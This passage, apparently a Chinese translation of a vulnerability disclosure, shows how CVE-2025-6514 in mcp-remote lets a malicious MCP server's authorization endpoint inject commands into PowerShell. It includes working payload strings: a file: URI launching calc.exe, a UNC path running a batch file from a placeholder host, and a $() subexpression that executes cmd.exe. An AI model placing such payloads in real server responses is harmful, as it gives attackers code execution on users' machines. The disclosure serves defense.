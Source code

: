   
D.PowerShell 解码该命令并运行。在我们的例子中，它将执行 calc.exe：  
  
```
启动“ file:/c:/windows/system32/calc.exe ?response_type=code…..”
```  
  
  
* “open”软件包在 macOS 和 Linux 上使用不同的代码路径，分别执行“open URL”或“xdg-open URL”。虽然这些实现也可以被利用通过 file:// URL 运行任意可执行文件，但由于没有调用 shell，攻击面更加有限，从而限制了控制可执行文件参数的能力。  
  
从有限到完整的命令执行  
  
该Start关键字指的是 PowerShell 的Start-Processcmdlet，可以运行可执行文件，或将其传递给 Windows Shell 进行文件扩展名关联或协议处理程序（URI 方案）。  
  
因为该authorization_endpoint字符串用于构造new URL()，所以它必须采用有效的 URL 格式，并以 URI 方案开头。  
  
当提供“ file:/c:/windows/system32/calc.exe ?response_type=code…..”时 - file: URI 方案将用于执行 calc.exe 可执行文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadAbDQibLNibQ3hnDtciayfrzPvtmDmZFe93plrY6aj2LQx8ku5E4NWiaVAwA9b5F8b4AKQq5FfDUSpaA/640?wx_fmt=png&from=appmsg "")  
  
图 11：mcp-remote 在试图打开浏览器进行授权时执行 calc.exe 进程  
  
现在我们可以运行任何可执行文件，但没有参数——这不够有用。  
  
我们可以尝试使用诸如“ file://IP_ADDR/Share/test.bat ?response_type=code…..”之类的 URL 来执行远程文件，该 URL 指向用于访问网络资源的 UNC 路径（请注意双反斜杠）。  
  
它可以工作——但是 Windows 会弹出有关运行远程可执行文件的安全警告：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadAbDQibLNibQ3hnDtciayfrzPpCsMhy1g7ibEQwE4EBpPau0Dib6l32NdDib3N4SjysFtbL7dxQvbt33hg/640?wx_fmt=png&from=appmsg "")  
  
图 12：尝试执行 UNC 路径时显示的安全警告  
  
让我们尝试一种不同的策略——由于命令在 PowerShell 中运行，我们可以滥用子表达式评估功能来注入我们的命令：“http://www.example $(calc.exe) .com/?response_type=code…..”。这将运行 calc.exe，因为子表达式运算符 $()将评估（运行）其参数表达式。  
  
如果我们能够提供一个“空格”字符，这项技术就能让我们向命令注入任意参数。但由于我们的字符串经过了URL()，而空格在URL中不是有效字符，因此它要么会导致new URL()调用失败（如果在域名内），要么URL会被编码为%20。例如，输入“http://www.example.com/ $(cmd.exe /c echo test) ”会被翻译成“http://www.example.com/ $(cmd.exe%20/c%20echo%20test) /?response_type=code…..”  
  
对于“file:”请求也会发生同样的情况。  
  
最终，我们注意到，如果提供一个不存在且不包含反斜杠的方案，URL 不会被编码。因此，我们可以输入“ a:$(cmd.exe /c whoami > c:\\temp\\pwned.txt) ?response_type=code…..”来实现完整的命令执行！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tadAbDQibLNibQ3hnDtciayfrzPfzhfQkLbWPpdUgFr1lLqqmxP3h30WFWJag4J5pc8KvFXyNmyg23qVQ/640?wx_fmt=png&from=appmsg "")  
  
图 13：我们的 cmd.exe /c 命令在 C:\temp 中创建了一个新的 pwned.txt 文件 - 证明代码执行成功。  
  
概括  
  
随着 CVE-2025-6514 的发现，我们已证明连接到不受信任的 MCP 服务器时存在远程代码执行漏洞。如前所述，Cursor、Windsurf 和 Claude 等 LLM 托管服务商现已添加类似的远程 MCP 连接功能。MCP 用户必须特别注意，仅使用安全连接方式 (HTTPS) 连接到受信任的 MCP 服务器，因为在不断发展的 MCP 生态系统中，可能会发现与 CVE-2025-6514 类似的漏洞。  
  
  
  
感谢您抽出  
  